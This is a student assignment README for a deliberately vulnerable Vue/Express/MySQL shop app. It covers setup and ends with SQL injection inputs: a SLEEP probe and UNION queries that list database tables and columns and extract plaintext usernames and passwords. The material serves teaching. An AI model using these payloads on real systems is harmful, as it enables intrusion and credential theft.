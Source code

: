 # Secure Systems Assignment 2 - SQL Injection
# Bearach Byrne - C15379616

This is a simple web app originally taken from https://github.com/TanayB11/sql-injection-demo.git, with some minor modifications.

This application is a lesson in how not to create a web application. It purposefully does not make use of any defenses against SQLi attacks.

## Stack
- Vue
- Node + Express
- MySQL

The below setup guide is for Linux (I set it up and ran it on Ubuntu 20.04.4 LTS

## Setup
1. Clone the repo to a directory - `git clone https://github.com/BearachB/sql_inject_demo.git`
8. Install Homebrew - `/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)`. Ensure you add Homebrew to your path and bash shell profile script (follow prompts after installing Homebrew). 
9. Install MySQL `brew install mysql`
10. Start the MySQL server with `mysql.server start`
11. Login to MySQL with `mysql -u root -p`. The default password is blank
12. Run `ALTER USER 'root'@'localhost' IDENTIFIED BY 'new_password';` to change your MySQL password
13. Here, you can check the databases using the `show databases` command, and also check the tables within each using the `show tables` command
14. `QUIT` exits the MySQL monitor - Note: `mysql.server stop` stops the MySQL server. Do not run this if you are using the server.
15. Add your MySQL credentials to an environment variable.
```bash
$ cd server
$ echo 'MYSQL_CREDS="mysql_password"' > .env
```

09. To start the Express Server.
```bash
$ cd client && yarn install     # Installs client dependencies
$ cd ../server && yarn install  # Installs server dependencies
$ yarn dev                      # Starts Express server
```
10. To start the Vue server: In a new terminal, run:
```bash
$ cd client
$ yarn serve                    # Starts Vue.js server
```
11. This should open your default browser and connect to your local Vue server, if this doesn't happen go to your browser and manually connect to localhost:8080. 
13. Try search for a computer part, such as "cpu" or "board".
14. Try some SQLi inputs in the search box:
```
-- Sleeps for 2 seconds per item found
SELECT * FROM products WHERE name LIKE '%steel%' AND 0 = SLEEP(2); -- 

-- Selects everything
SELECT * FROM products WHERE name LIKE '%'; -- 

-- Append 1, 2, 3 on the bottom
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT 1, 2, 3 FROM dual);  -- 

-- Get a list of tables
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables);  -- 

-- Get all columns from "users" table
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users');  -- 

-- Grab usernames and passwords (stored in plain text)
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT id, username, password FROM users);  -- 
```
If you get errors connecting to MySQL, run the following:
`$ mysql -u root -p`
```SQL
ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'mysql_password';
flush privileges;
QUIT;
```
